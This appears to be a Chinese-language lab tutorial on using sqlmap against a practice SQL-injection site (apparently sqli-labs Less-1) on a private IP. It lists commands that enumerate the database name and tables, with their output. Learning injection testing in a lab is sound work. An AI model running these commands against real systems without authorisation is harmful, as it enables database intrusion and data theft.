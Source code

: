 <br />
<a name="KKJFS"></a>
# sqlmap
`sqlmap -u http://192.168.31.193/Less-1/?id=1 --batch`
> **--batch:跳过询问,代表全自动 不用我们手动输入y/n**
> **-u:ip地址**

    ┌──(root㉿guoyx)-[/home/kali]
    └─# sqlmap -u http://192.168.31.193/Less-1/?id=1 --batch
    
    [22:05:28] [INFO] the back-end DBMS is MySQL
    web application technology: PHP 5.3.29, Apache 2.4.39
    back-end DBMS: MySQL >= 5.6

PHP 5.3.29,
&#x20;Apache 2.4.39
back-end DBMS: MySQL >= 5.6 <a name="ZKiKa"></a>

## 查看当前数据库名称

`sqlmap -u http://192.168.31.193/Less-1/?id=1 --batch --current-db`

> \--current-db:查看数据库名称

    ┌──(root㉿guoyx)-[/home/kali]
    └─# sqlmap -u http://192.168.31.193/Less-1/?id=1 --batch --current-db
    
    [22:11:23] [INFO] the back-end DBMS is MySQL
    web application technology: Apache 2.4.39, PHP 5.3.29
    back-end DBMS: MySQL >= 5.6
    [22:11:23] [INFO] fetching current database
    current database: 'security'
    [22:11:24] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/192.168.31.193'

security <a name="tOsVp"></a>

## 查看数据表名称

`sqlmap -u 192.168.31.193/Less-1/?id=1 --batch -D "security" --tables`

> \-D  ：指定数据库名称
> \--tables：查看数据表

```
sqlmap -u 192.168.31.193/Less-1/?id=1 --batch -D "security" --tables

Database: security
[4 tables]
+----------+
| emails   |
| referers |
| uagents  |
| users    |
+----------+

```
